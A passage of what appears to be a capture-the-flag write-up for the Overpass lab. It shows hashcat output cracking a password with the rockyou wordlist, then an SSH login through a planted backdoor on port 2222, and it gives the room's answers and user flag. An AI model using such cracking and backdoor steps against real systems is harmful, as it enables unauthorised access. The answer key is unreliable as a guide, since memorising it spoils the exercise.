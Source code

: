~~~
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   149.3 kH/s (0.50ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 18432/14344385 (0.13%)
Rejected.........: 0/18432 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> tanika

Started: Sun Aug 16 18:43:44 2020
Stopped: Sun Aug 16 18:44:03 2020
~~~

Answer: `november16`

# [Task 3] Attack - Get back in!

Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

## #3.1 - The attacker defaced the website. What message did they leave as a heading?

Start the machine and connect to port 80/tcp. The index page shows the following message:

Answer: `H4ck3d by CooctusClan`

## #3.2 - Using the information you've found previously, hack your way back in!

Take advantage of the backdoor to connect to the host on port 2222, with the password cracked previously (`november16`)

~~~
unknown@kali:~$ ssh 10.10.131.25 -p 2222
unknown@10.10.131.25's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
~~~

## #3.3 - What's the user flag?

*Hint: The backdoor! It only checks the password.*

~~~
james@overpass-production:/home/james/ssh-backdoor$ cd /home/james/
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
~~~
